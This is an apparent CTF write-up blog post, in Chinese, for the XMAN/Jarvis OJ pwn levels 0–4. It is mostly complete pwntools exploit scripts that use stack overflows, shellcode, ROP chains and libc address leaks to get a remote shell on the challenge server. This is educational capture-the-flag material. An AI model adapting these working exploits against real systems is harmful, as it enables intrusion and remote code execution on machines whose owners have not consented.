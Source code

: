 ```yaml
---
layout: post
title: XMAN-PWN writeup
---
```




## level0

栈溢出，checksec发现开启NX选项，但是给出了一个callsystem函数，直接覆盖返回地址为callsystem函数地址

```python
#coding:utf-8

from pwn import *

pwn = remote("pwn2.jarvisoj.com", 9881)

pwn.recvuntil("Hello, World\n")

callsystem_addr = 0x000000000400596
payload = 'a'*(0x80+8) + p64(callsystem_addr)

pwn.sendline(payload)
pwn.interactive()
```





## level1

栈溢出，checksec发现没有开启NX保护选项，可以在栈上写入shellcode直接执行，用到pwntools的shellcraft模块

```python
#coding:utf-8

from pwn import *
from time import sleep

pwn = remote("pwn2.jarvisoj.com",9877)

recv = pwn.recv().strip()

sleep(0.1)

buf_addr = recv.split(':')[1][:-1]
buf_addr = p32(int(buf_addr,16))

shellcode = asm(shellcraft.i386.linux.sh())
			# shellcode + padding + old_ebp + return_addr
payload = shellcode + '\x00'*(0x88+4-len(shellcode)) + buf_addr

pwn.sendline(payload)
pwn.interactive()
```



## level2

栈溢出，程序带有system函数，并且给有hint -- /bin/sh字符串

```python
#coding:utf-8

from pwn import *

pwn = remote('pwn2.jarvisoj.com',9878)

binsh_addr = 0x0804A024
system_plt = 0x8048320

pwn.recv()
            # buf_input + ebp + return_address + faked_return + "/bin/sh"
payload = 'a'*0x88 + 'a'*4 + p32(system_plt) + p32(0xaaaa) + p32(binsh_addr)

pwn.sendline(payload)
pwn.interactive()
```



## level2_x64

```python
#coding:utf-8

from pwn import *
pwn = remote("pwn2.jarvisoj.com",9882)

pop_rdi_ret = 0x00000000004006b3
binsh_addr = 0x0000000000600A90
system_plt = 0x00000000004004C0

pwn.recv() # input:

payload = 'a'*(0x80+8) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_plt)

pwn.send(payload)
pwn.interactive()
```

- 参数传递顺序 rdi,rsi,rdx,rcx,r8,r9,栈





## level3

栈溢出，给出libc.so文件，里面包含的有system的偏移和 /bin/sh的偏移。泄露地址，找出基地址。这个题也可以用DynELF利用。

```python
#coding:utf-8

from pwn import *
from time import sleep
pwn = remote('pwn2.jarvisoj.com', 9879)
# context.log_level = 'debug'

libc_so = ELF("./libc-2.19.so")
level3 = ELF("./level3")
system_offset = libc_so.symbols['system']
read_offset = libc_so.symbols['read']
binsh_offset = 0x016084C

read_got = level3.got['read']
write_plt = level3.plt['write']

vulner_func = 0x804844B

pwn.recv() # input:

payload = 'a'*(0x88+4) + p32(write_plt) + p32(vulner_func) + p32(1) + p32(read_got) + p32(4)

pwn.sendline(payload)

read_addr = u32(pwn.recv(4))
base_addr = read_addr - read_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

sleep(0.1)
pwn.recv() # input:
payload = 'a'*(0x88+4) + p32(system_addr) + p32(0xaaaa) + p32(binsh_addr)

pwn.sendline(payload)
pwn.interactive()
```



## level3

```python
#coding:utf-8

from pwn import *

pwn = remote("pwn2.jarvisoj.com", 9883)
libc = ELF("./libc-2.19.so")
level3_x64 = ELF("./level3_x64")

system_offset = libc.symbols['system']
binsh_offset = 0x00000000017C8C3
write_offset = 0x00000000000EB700
write_got = 0x0000000000600A58
write_plt = 0x0000000004004B0
main = 0x00000000040061A

pop_rdi_ret = 0x00000000004006b3
pop_rsi_ret = 0x00000000004006b1

pwn.recv()

payload  = 'a'*(0x80+8) + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(write_got) + p64(0xa) + p64(write_plt) + p64(main)

pwn.send(payload)
write_addr = u64(pwn.recv(8))
baseaddr = write_addr - write_offset
system_addr = baseaddr + system_offset
binsh_addr = baseaddr + binsh_offset

payload = 'a'*(0x80+8) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
pwn.recv()
pwn.send(payload)
pwn.interactive()
```

- pop rdx; ret; 在程序中没有相应的ROPgadget存在,可以留空,因为他原来的值可以用



## level4

栈溢出，没有给出libc文件，典型的ROP，由于libc-database查不到libc版本，所以使用pwntools的DynELF，方便且快速。

```python
#coding:utf-8

from pwn import *
from time import sleep
pwn = remote('pwn2.jarvisoj.com', 9880)

read_plt = 0x8048310
write_plt = 0x08048340
vulner_func = 0x804844B
bss = 0x804A024
pppr = 0x8048509 # objdump -d level4 | grep pop -C3
main = 0x08048470

def leak(address):
    payload = 'a'*(0x88+4) + p32(write_plt) + p32(pppr) + p32(1) + p32(address) + p32(4) + p32(main)
    pwn.send(payload)
    data = pwn.recv(4)
    return data

d = DynELF(leak, elf=ELF('./level4'))
system_addr = d.lookup('system','libc')
log.success('leak system address: ' + hex(system_addr))

payload = 'a'*(0x88+4) + p32(read_plt) + p32(pppr) + p32(0) + p32(bss) + p32(8) + p32(system_addr) + p32(vulner_func) + p32(bss)
pwn.send(payload)
sleep(0.1)
pwn.send("/bin/sh\x00")
pwn.interactive()
```

- leak函数中的payload 我用vulner_func循环一直不能获得shell，换位main函数就可以。？？？




level5 && level6



题目文件和脚本已上传[github](https://github.com/solei1/CTF/tree/master/pwn/XMAN)
